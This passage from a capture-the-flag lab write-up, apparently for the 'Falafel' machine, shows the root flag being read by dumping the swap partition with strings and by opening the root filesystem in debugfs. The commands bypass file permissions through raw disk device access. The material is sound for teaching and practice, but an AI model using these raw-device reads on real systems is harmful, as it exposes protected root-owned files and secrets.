     yossi@falafel:/dev/shm/.d$ cat /etc/fstab
    # /etc/fstab: static file system information.
    #
    # Use 'blkid' to print the universally unique identifier for a
    # device; this may be used with UUID= as a more robust way to name devices
    # that works even if disks are added and removed. See fstab(5).
    #
    # <file system> <mount point>   <type>  <options>       <dump>  <pass>
    # / was on /dev/sda1 during installation
    UUID=ccba94d2-0b82-49ce-b25d-f1d3615345f0 /               ext4    errors=remount-ro 0       1
    # swap was on /dev/sda5 during installation
    UUID=63f5a640-a3f7-4ea9-9dbd-c9a091ace20c none            swap    sw              0       0
    
    yossi@falafel:/dev/shm/.d$ mount | grep sda
    /dev/sda1 on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)
    
    

### Get Flag - strings

These devices can be read with `dd `or `cat`. In swap, the flag is there in
plaintext:

    
    
    yossi@falafel:/dev/shm/.d$ cat /dev/sda5 | strings -a | grep "root.txt" | grep -e "[0-9a-f]\{32\}"
    echo "23b79200..." > root.txt
    printf "23b79200..." > root.txt
    echo "23b79200..." > root.txt
    echo "23b79200..." > root.txt
    printf "23b79200..." > root.txt
    echo "23b79200..." > root.txt
    

### Get Flag - debugfs

`debugfs` let’s you debug a file system if you can read the device:

    
    
    yossi@falafel:~$ debugfs /dev/sda1
    debugfs 1.42.13 (17-May-2015)
    debugfs:  ls /root
    debugfs:  cat /root/root.txt
    23b79200...
    